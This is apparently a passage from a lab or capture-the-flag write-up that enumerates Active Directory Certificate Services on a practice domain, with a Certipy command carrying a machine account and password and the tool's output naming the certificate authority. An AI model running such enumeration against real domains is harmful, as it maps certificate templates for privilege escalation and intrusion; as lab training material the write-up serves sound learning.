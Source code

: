 This confirms that ADCS is deployed in the domain, and the CA (Certificate Authority) identified is `retro-DC-CA`, hosted on the domain controller. This is a potential attack surface, so the next logical step is to perform a deeper enumeration using Certipy, a powerful tool for assessing ADCS configurations and identifying exploitable certificate templates.

```bash
certipy find -u 'Banking$@retro.vl' -p 'sidhere!' -dc-ip 10.10.99.43 -vulnerable -enabled -stdout                       
```

![](/assets/img/posts/retro/8.jpg)

**Complete Output:**

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'retro-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : retro-DC-CA
    DNS Name                            : DC.retro.vl
    Certificate Subject                 : CN=retro-DC-CA, DC=retro, DC=vl
    Certificate Serial Number           : 7A107F4C115097984B35539AA62E5C85
```